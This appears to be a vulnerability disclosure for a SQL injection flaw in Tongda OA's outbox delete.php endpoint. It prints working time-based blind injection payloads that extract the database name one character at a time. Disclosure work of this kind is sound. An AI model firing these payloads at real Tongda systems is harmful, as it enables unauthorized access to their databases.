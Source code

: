 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![t1](.\TongDa Sql inject.assets\t1.png)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![image-20240126094241423](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094241423.png)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126094806730](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094806730.png)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095114500](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095114500.png)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095822818](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095822818.png)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095911470](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095911470.png)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100122531](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100122531.png)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100029696](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100029696.png)

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa
